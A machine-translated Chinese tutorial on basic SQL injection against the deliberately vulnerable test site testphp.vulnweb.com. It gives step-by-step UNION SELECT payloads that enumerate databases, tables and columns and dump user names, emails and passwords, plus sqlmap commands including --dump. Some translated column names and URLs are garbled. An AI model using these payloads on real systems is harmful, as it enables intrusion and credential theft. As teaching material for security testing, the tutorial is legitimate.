










# 如何执行基本的 SQL 注入攻击？—道德黑客

> 原文：<https://infosecwriteups.com/how-to-perform-a-basic-sql-injection-attack-ethical-hacking-f59e5ccbe51f?source=collection_archive---------0----------------------->


# SQL 注入攻击是如何工作的？

当网站暴露从用户获取的输入，并使用用户输入在 MySQL 中直接运行查询时，SQL 注入攻击是可能的。在这篇博客中，我将演示如何在网站上执行基本的 SQL 注入攻击，最后，我将介绍一个工具`SQLmap`，它可以自动完成整个过程。

> 如果你不知道什么是 SQL 注入攻击，可以访问这个链接。【https://www.w3schools.com/sql/sql_injection.asp 

有一个网站[**http://testphp.vulnweb.com/listproducts.php?cat=1**](http://testphp.vulnweb.com/listproducts.php?cat=1%27)开放测试 php 漏洞。我将使用这个网站来执行 SQLi 攻击。

# 1.发现网站是否易受 SQL 注入攻击

最基本最简单的方法就是检查你正在访问的页面的 URL。如果 URL 的形式类似于[**http://testphp.vulnweb.com/listproducts.php?cat=1**](http://testphp.vulnweb.com/listproducts.php?cat=1%27)，那么它就是一个潜在的目标。要检查网页是否真的使用了 SQL 后端，你可以在 URL 的末尾添加`\`或者一个单引号`**‘**` ，看看页面中是否有任何内容中断或者你得到一个 SQL 错误。大多数情况下，错误是这样的:

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''a\'' at line 1
```

但是错误也可以是其他任何东西。对于网站[http://testphp.vulnweb.com/listproducts.php?cat=1](http://testphp.vulnweb.com/listproducts.php?cat=1%27)追加`‘`给我以下屏幕



所以我已经确定 SQL 注入攻击我的目标 http://testphp.vulnweb.com/listproducts.php?cat=1 是可能的

在后端，应用程序可能会运行类似于

```
SELECT * FROM XYZ_TABLE WHERE CAT='<the value of id>'
```

为[http://testphp.vulnweb.com/listproducts.php?cat=1](http://testphp.vulnweb.com/listproducts.php?cat=1%27)'**执行的查询将是**

```
SELECT * FROM XYZ_TABLE WHERE CAT=1'
```

**你猜对了。这将抛出一个错误。**

**令人欣慰的是，现在我们知道可以用任何我们想要的方式修改查询。如果我将`--+`添加到末尾，查询应该会正确运行。(`--+`或者`#`基本会评论它之后写的任何东西。这是一个方便的知识，尽管在这种情况下可能没有用)**

****

# **2.找出当前的数据库**

**下一步是找出现有的数据库。我们在这里使用了`ORDER BY`子句。如果我运行[http://testphp.vulnweb.com/listproducts.php?cat=1 order by 5](http://testphp.vulnweb.com/listproducts.php?cat=1 order by 5)，对应的 MySQL 查询将是**

```
SELECT * FROM XYZ_TABLE WHERE CAT=1 order by 5--+'
```

**这将根据第 5 列对结果进行排序**

**我将对不同的列号值重复这个过程，直到得到分页符所在的列号。在这种情况下，当`ORDER BY 12,`这一页打开时。我现在知道总共有 11 列。因为列数是 11，所以我将运行一个查询`select all 1,2,3,4,5,6,7,8,9,10,11`。**

**[**http://testphp.vulnweb.com/listproducts.php?cat = 1% 20 union % 20 select % 20 all % 201，2，3，4，5，6，7，8，9，10，11**](http://testphp.vulnweb.com/listproducts.php?cat=1%20union%20select%20all%201,2,3,4,5,6,7,8,9,10,11)**

**相应的 MySQL 查询应该是这样的**

```
SELECT * FROM XYZ_TABLE WHERE CAT=1 union select all 1,2,3,4,5,6,7,8,9,10,11
```

**现在浏览网页。在某些地方，你会发现 1 到 11 之间的一些数字。我看到了数字 7，2 和 9。**

****

**我现在知道我在 7，2 和 9 的地方写的任何东西都是可见的。我想知道`current database`、`user`和`version`，所以我执行**

**【https://testphp.vulnweb.com/listproducts.php? cat = 1% 20 union % 20 select % 20 all % 201，用户()，3，4，5，6，数据库()，8，版本()，10，11 。**

> **注意:%20 是表示空格的 ASCII 码**

**我把 2 换成了`user()`，7 换成了`database()`，9 换成了`version()`。**

**我将了解数据库，数据库版本和用户的详细资料。**

****

**我得到以下信息:**

*   **数据库— `acuart`**
*   **用户— `acuart@localhost`**
*   **版本— `8.0.22–0ubuntu0.20.04.2`**

> **如果你喜欢我的博客，你可以点击下面的按钮或者点击下面的链接[给我买杯咖啡](https://www.buymeacoffee.com/gouravdhar):https://www.buymeacoffee.com/gouravdhar**

****

# **3.发现当前数据库中的表和表数据**

**一旦收集了以上信息，一切都会变得非常简单。要获得表的列表，我只需运行**

**[http://testphp.vulnweb.com/listproducts.php?cat = 1% 20 union % 20 select % 20 all % 201，table_name，3，4，5，6，7，8，9，10，11% 20 from % 20 information _ schema . tables % 20 where % 20 table _ schema % 20 = % 27 acuart % 27](http://testphp.vulnweb.com/listproducts.php?cat=1%20union%20select%20all%201,table_name,3,4,5,6,7,8,9,10,11%20from%20information_schema.tables%20where%20table_schema%20=%27acuart%27)**

**相应的 SQL 查询:**

```
SELECT * FROM XYZ_TABLE WHERE CAT=1 union select all 1,table_name,3,4,5,6,7,8,9,10,11 from information_schema.tables where table_schema = 'acuart'
```

**`**information_schema**`是包含表列表的默认数据库。我们使用这些信息来找出表名。`acuart`是我们在上一步中得到的数据库名称。**

**网页看起来会像这样:**

****

**我们得到了一个桌子列表:**

*   **艺术家**
*   **手推车**
*   **卡特格**
*   **作为特色的**
*   **留言板**
*   **图片**
*   **制品**
*   **用户**

# **4.发现表中的列名**

**发现表格的列`users`**

**[http://testphp.vulnweb.com/listproducts.php?cat = 1% 20 union % 20 select % 20 all % 201，column_name，3，4，5，6，7，8，9，10，11% 20 from % 20 information _ schema . columns 其中 table_name='users'](http://testphp.vulnweb.com/listproducts.php?cat=1%20union%20select%20all%201,column_name,3,4,5,6,7,8,9,10,11%20from%20information_schema.columns where table_name='users')**

**相应的 SQL 查询:**

```
SELECT * FROM XYZ_TABLE WHERE CAT=1 union select all 1,column_name,3,4,5,6,7,8,9,10,11 from information_schema.columns where table_name = 'users'
```

****

**我得到的列名如下:**

*   **乌梅**
*   **及格**
*   **复写的副本**
*   **地址**
*   **电子邮件**
*   **名字**
*   **电话**

# **5.发现存储在表中的数据**

**要查看用户的名称、电子邮件和密码:**

**[http://testphp.vulnweb.com/listproducts.php?cat=1%20union 从用户中选择所有 1，姓名，3，4，5，6，电子邮件，8，通行证，10，11](http://testphp.vulnweb.com/listproducts.php?cat=1%20union select all 1,name,3,4,5,6,email,8,pass,10,11 from users)**

**相应的 SQL 查询:**

```
SELECT * FROM XYZ_TABLE WHERE CAT=1 union select all 1,name,3,4,5,6,email,8,pass,10,11 from users
```

****

# **6.使用 SQLmap 轻松完成上述任务**

**如果我想使用 sqlmap 来做上面的事情，我必须在我的终端上编写 run 下面的命令**

*   **`sqlmap -u “[https//testphp.vulnweb.com/listproducts.php?cat=1](https://testphp.vulnweb.com/listproducts.php?cat=1)" --dbs`获取数据库列表**

****

*   **`sqlmap -u “[http://testphp.vulnweb.com/listproducts.php?cat=1](https://testphp.vulnweb.com/listproducts.php?cat=1)" --current-db`:获取当前数据库**

****

*   **`sqlmap -u “[http://testphp.vulnweb.com/listproducts.php?cat=1](https://testphp.vulnweb.com/listproducts.php?cat=1)" --tables -D acuart`:获取‘acuart’中的表格列表**

****

*   **`sqlmap -u “[http://testphp.vulnweb.com/listproducts.php?cat=1](https://testphp.vulnweb.com/listproducts.php?cat=1)" --columns -T users -D acuart`:获取‘用户’表中的列**

****

*   **`sqlmap -u “[http://testphp.vulnweb.com/listproducts.php?cat=1](https://testphp.vulnweb.com/listproducts.php?cat=1)" -T users -D acuart --dump`:存储用户表中的所有数据**

## **总结 SQL 注入攻击**

**SQL 注入攻击是黑客能够执行的最强大的攻击之一。有许多方法可以防止 SQL 注入攻击，如将某些输入字符列入黑名单或白名单。编程框架还提供了只允许特定字段输入的接口。**

> **这里邀请您探索我们的博客平台 [**极客头脑**](https://www.thegeekyminds.com/) 。一个让您了解软件开发和技术领域最新发展的一站式平台。我们在 [**的极客头脑**](https://www.thegeekyminds.com/) 旨在写一些你实际上可以用来提高工作效率和充实你的职业生活的内容。**
> 
> **邀请您在[**https://thegeekyminds.com**](https://thegeekyminds.com/)通过我们的平台。并订阅我们的时事通讯，以便在我们每次发布新帖子时收到电子邮件。我们承诺不会向您的收件箱发送垃圾邮件。点击下面的按钮订阅我们的时事通讯**

**[](https://forms.wix.com/4444cf13-7653-460d-9b32-f2e4e65544d1:c2184260-1ab5-4c6a-a37d-53de0778afa0)**